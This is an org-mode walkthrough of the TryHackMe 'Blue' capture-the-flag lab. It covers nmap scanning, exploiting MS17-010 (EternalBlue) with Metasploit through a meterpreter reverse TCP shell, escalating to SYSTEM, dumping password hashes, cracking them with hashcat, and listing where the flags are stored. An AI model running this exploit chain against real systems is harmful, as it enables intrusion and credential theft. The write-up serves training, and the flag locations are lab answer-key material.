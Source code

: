 #+TITLE: TryHackMe - Blue writeup

https://tryhackme.com/room/blue

https://darkstar7471.com/resources.html

* Reconnaissance

#+begin_src shell
	nmap -T4 -vv -p- 10.10.123.159
	nmap -sV -vv -p 135,139,445,3389,49152,49153,49154,49158,49160 --script vuln 10.10.123.159
#+end_src

The target is vulnerable to *MS17-010* .

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

https://www.exploit-db.com/exploits/42315

https://www.exploit-db.com/exploits/41891

* Gain Access

	#+begin_src shell
		msfconsole

		use exploit/windows/smb/ms17_010_eternalblue
		set RHOSTS 10.10.123.159
		set LHOST 10.10.10.10
		set PAYLOAD windows/x64/meterpreter/reverse_tcp
		exploit
	#+end_src

* Escalate privelege

	Send gained shell to background (CTRL+Z), and let's convert the shell to a meterpreter shell:

	#+begin_src shell
		use post/multi/manager/shell_to_meterpreter
		set SESSION 1
		run
	#+end_src

	Escalate to 'NT AUTHORITY\SYSTEM', then migrate to a process running as 'NT AUTHORITY\SYSTEM':

	#+begin_src shell
		getsystem
		ps
		migrate <pid>
	#+end_src

* Cracking

	In meterpreter shell, run `hashdump` to dump all the passwords on the machine.

	On each row, the 4th field is the *NTLM* hash. `hashcat` mode for NTLM is 1000.

	#+begin_src shell
		hashcat <hash> --wordlist /usr/share/wordlists/rockyou.txt -m 1000
	#+end_src

* Flags

	#+begin_src shell
		C:\>dir flag* /s /p

		Volume in drive C has no label.
		Volume Serial Number is E611-0B66

		Directory of C:\

		03/17/2019  02:27 PM                24 flag1.txt
		1 File(s)             24 bytes

		Directory of C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent

		03/17/2019  02:26 PM               482 flag1.lnk
		03/17/2019  02:30 PM               848 flag2.lnk
		03/17/2019  02:32 PM             2,344 flag3.lnk
		3 File(s)          3,674 bytes

		Directory of C:\Users\Jon\Documents

		03/17/2019  02:26 PM                37 flag3.txt
		1 File(s)             37 bytes

		Directory of C:\Windows\System32\config

		03/17/2019  02:32 PM                34 flag2.txt
		1 File(s)             34 bytes
	#+end_src
